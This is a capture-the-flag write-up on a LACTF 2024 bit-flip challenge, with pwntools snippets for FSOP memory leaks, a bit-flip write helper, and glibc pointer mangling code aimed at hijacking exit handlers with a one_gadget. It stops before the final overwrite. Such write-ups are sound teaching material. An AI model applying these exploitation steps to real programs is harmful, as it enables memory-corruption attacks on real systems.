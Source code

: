 I did not solve this challenge but I decided to look back at it because I wanted to learn FSOP and overwriting exit funcs with one gadget.

## Challenge

This challenge provides us with 4 bit flips, and our addresses are calculated at an offset from `_IO_2_1_stdin_`. The path to a solution, as with many other bit flip challenges, is to first get infinite bit flips for arbitrary write. The bit flip counter is stored in the base program’s bss, but PIE is enabled. Our goal should be to leak the base address before our 4th bit flip so that we can overwrite the counter. The flip being relative to stdin hints that we will need some form of leak-oriented FSOP. (https://enzo.run/posts/lactf2024/#flipma)

```
stdout = 0xd20
write_base = stdout + 0x20
read_end = stdout + 0x10
```

First we will calculate the location of `_IO_2_1_stdin_` and its fields.

```
sla(b"a: ", "9")
sla(b"b: ", "9")
```

For this to work, we also need to make sure the _IO_CURRENTLY_PUTTING flag is set, and I initially thought we needed to use a bit flip on this, but just initializing stdout with an additional puts before the flips also works.

![image](https://github.com/user-attachments/assets/5da04128-6251-4532-99b4-1b853b01c373)

Next, we need to find a suitable location to leak the elf address. Using the search command in pwndbg, we can see there are 2 addresses in libc that contain the bytes of our elf section.

![image](https://github.com/user-attachments/assets/25c45ff4-9e6d-4f5b-8690-b90f8936ee96)

Unbuffered file streams hold libc addresses to themselves in the buffer fields.

![image](https://github.com/user-attachments/assets/5622ca66-3003-45b0-921e-33b93118e6c0)

The idea is to flip a bit in stdout->write_base `0x00007fd8a201a723` to become `0x00007fd8a2018723`. We can see that `0x7fd8a2018f4a 0xa4200000562941ac` will be located between the stdout->write_base and stdout->write_ptr.

but the file write function called from puts will treat the stream as buffered as long as there is a difference between _IO_write_base and _IO_write_ptr. This will cause the write function to print out memory from libc between those two addresses.

### Recap

To force flush the buffer with its contents:

- Ensure the _IO_CURRENTLY_PUTTING flag is set
- We need to set stdout->read_end = stdout->write_base
- Ensure stdout->write_ptr = stdout->write_end

So we will need to:

- Give an invalid index to make the program call puts with error message
- Change stdout->read_end and stdout->write_base to a location right before our leak location

```py
# _IO_write_base
sla(b"a: ", str(write_base+1))
sla(b"b: ", "5")

# _IO_read_end
sla(b"a: ", str(read_end+1))
sla(b"b: ", "5")
```

![image](https://github.com/user-attachments/assets/6829df7e-2dac-49aa-a274-27bc3c8d18ba)

After running the script above, we can see now in our IO File struct, our target is located between write_base and write_ptr.

```py
sla(b"a: ", "9")
sla(b"b: ", "9")

data = p.recvuntil(b"we're flipping bits, not burgers", timeout=1)
if len(data) < 100:
  print("failed")
  exit(1)

diff = 0x7f0c55badf4a - 0x00007f0c55bad723
elf_leak = u64(data[diff-2:diff+6])
exe.address = elf_leak - (0x55ff52d83020 - 0x55ff52d7f000)
li(f"exe addr @ {hex(exe.address)}")
```

![image](https://github.com/user-attachments/assets/ea0f0745-5cdb-45e4-a98e-669f0feeaecf)

We can find the offset of our leak by subtracting the leak location with the write_base.

```py
print(len(str(exe.sym["flips"] - libc.sym["_IO_2_1_stdin_"])))
print(hex(exe.sym["flips"] - libc.sym["_IO_2_1_stdin_"]))

## Make flip to big number
sla(b"a: ", str(exe.sym["flips"] - libc.sym["_IO_2_1_stdin_"]))
sla(b"b: ", "7")
```

![image](https://github.com/user-attachments/assets/428f0589-5f67-48c2-82e9-cbe7f4ac4124)

We have a lot more flips now.

### Overwrite the exit funcs to one gadget

Lets find a suitable one gadget

![image](https://github.com/user-attachments/assets/534b33e2-7fa9-4809-a3e5-dcda6d6f8454)

![image](https://github.com/user-attachments/assets/4dd71422-ae29-4fae-9dd6-d0ae420e4c72)

Set a breakpoint at `__libc_start_main` and move through each instruction until you reach the `call rdx`. We can see r12 and r15 is NULL which matches the condition for 0xe3afe. Now that we know which one gadget to use, its time for the next step. Whenever a program exits, it will go through a list of exit functions.

![image](https://github.com/user-attachments/assets/3b9cc575-dfe2-4216-b47e-7023a26e3157)

The image above shows the exit funcs struct. We can see a list of functions defined there. By default, there is a function that is always called which is `_dl_fini`. It is stored in the list with flavor 4. The pointer is mangled because it will be encrypted with a key located in fs register.

![image](https://github.com/user-attachments/assets/26b5c826-f9f1-494b-8ae1-31d880e311d7)

When decrypting the mangled pointer, it will rotate right by 0x11 bytes and XOR with a key stored at fs:0x30. 

![image](https://github.com/user-attachments/assets/ed92f125-0e78-4d01-8ff4-37bfc5519a15)

Run the `fsbase` command in pwndbg to see the address of fs. So, our next goal will be to use FSOP to leak this key. It could also be possible to overwrite the key with 0.

```py
def write_to_addr(target, current, addr):
  bits = target ^ current
  print(f"{hex(bits)=}")
  for i, v in enumerate(bin(bits)[2:][::-1]):
    print(i, v)
    byte_num = i // 8
    bit_num = i % 8
    if v == "1":
      sla(b"a: ", str(addr - libc.sym["_IO_2_1_stdin_"] + byte_num))
      sla(b"b: ", str(bit_num))

shortbuf = 0x83 + libc.symbols["_IO_2_1_stdout_"]

## set stdout->write_base = fskey
## set stdout->read_end = fskey
## set stdout->write_ptr = fskey + 8
write_to_addr(fskey, shortbuf, libc.symbols["_IO_2_1_stdout_"] + 0x10)
write_to_addr(fskey, shortbuf, libc.symbols["_IO_2_1_stdout_"] + 0x20)
write_to_addr(fskey+8, shortbuf, libc.symbols["_IO_2_1_stdout_"] + 0x28)

sla(b"a: ", "9")
sla(b"b: ", "9")
```

![image](https://github.com/user-attachments/assets/8cc43b5c-f060-4dfe-8438-5317a29ab329)

Now, we can control the pointers using

```py
def pointer_demangle(addr, key):
  return ror(addr, 0x11) ^ key

def pointer_mangle(addr, key):
  return rol(addr ^ key, 0x11)
```

